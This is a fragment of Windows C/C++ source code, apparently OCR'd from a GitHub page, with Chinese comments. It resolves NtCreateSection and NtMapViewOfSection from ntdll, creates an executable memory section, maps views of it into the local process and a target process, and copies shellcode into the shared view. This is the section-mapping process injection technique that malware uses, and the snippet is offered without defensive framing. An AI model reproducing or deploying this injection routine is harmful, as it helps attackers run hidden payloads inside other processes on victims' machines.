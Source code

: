 ```
	typedef struct _LSA_UNICODE_STRING { USHORT Length;	USHORT MaximumLength; PWSTR  Buffer; } UNICODE_STRING, * PUNICODE_STRING;
	typedef struct _OBJECT_ATTRIBUTES { ULONG Length; HANDLE RootDirectory; PUNICODE_STRING ObjectName; ULONG Attributes; PVOID SecurityDescriptor;	PVOID SecurityQualityOfService; } OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;
	typedef struct _CLIENT_ID { PVOID UniqueProcess; PVOID UniqueThread; } CLIENT_ID, * PCLIENT_ID;
	using myNtCreateSection = NTSTATUS(NTAPI*)(OUT PHANDLE SectionHandle, IN ULONG DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL, IN PLARGE_INTEGER MaximumSize OPTIONAL, IN ULONG PageAttributess, IN ULONG SectionAttributes, IN HANDLE FileHandle OPTIONAL);
	using myNtMapViewOfSection = NTSTATUS(NTAPI*)(HANDLE SectionHandle, HANDLE ProcessHandle, PVOID* BaseAddress, ULONG_PTR ZeroBits, SIZE_T CommitSize, PLARGE_INTEGER SectionOffset, PSIZE_T ViewSize, DWORD InheritDisposition, ULONG AllocationType, ULONG Win32Protect);


	myNtCreateSection fNtCreateSection = (myNtCreateSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtCreateSection"));
	myNtMapViewOfSection fNtMapViewOfSection = (myNtMapViewOfSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtMapViewOfSection"));


	SIZE_T size = 4096;
	LARGE_INTEGER sectionSize = { size };
	HANDLE sectionHandle = NULL;
	PVOID localSectionAddress = NULL, remoteSectionAddress = NULL;

	// 创建一个内存节区（section）
	NTSTATUS status = fNtCreateSection(&sectionHandle, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
	if (!NT_SUCCESS(status))
	{
		printf("NtCreateSection failed with SYSTEM ERROR CODE: %d.\n", GetLastError());
		return (FALSE);
	}
	else {
		// 在本地进程中创建内存节区（section）的视图(view）
		NTSTATUS status1 = fNtMapViewOfSection(sectionHandle, GetCurrentProcess(), &localSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_READWRITE);

		// 在目标进程/远程进程中创建一个内存节区（section）的视图(view）
		NTSTATUS status2 = fNtMapViewOfSection(sectionHandle, pi->hProcess, &remoteSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_EXECUTE_READ);

		if (!NT_SUCCESS(status1) || !NT_SUCCESS(status2)) {
			printf("NtMapViewOfSection failed with SYSTEM ERROR CODE: %d.\n", GetLastError());
			return (FALSE);
		}
		else {
			// 将shellcode复制到本地视图(view），这将反映在目标进程的映射视图中
			memcpy(localSectionAddress, shellcode, dwShellcodeLength);

            //以下两行为便于调试的驱动代码
			//printf("lpMapAddressRemote = %p\n", remoteSectionAddress);
			//MessageBox(NULL, L"1", NULL, MB_OK);
			return (TRUE);
		}	
	}	
}
```
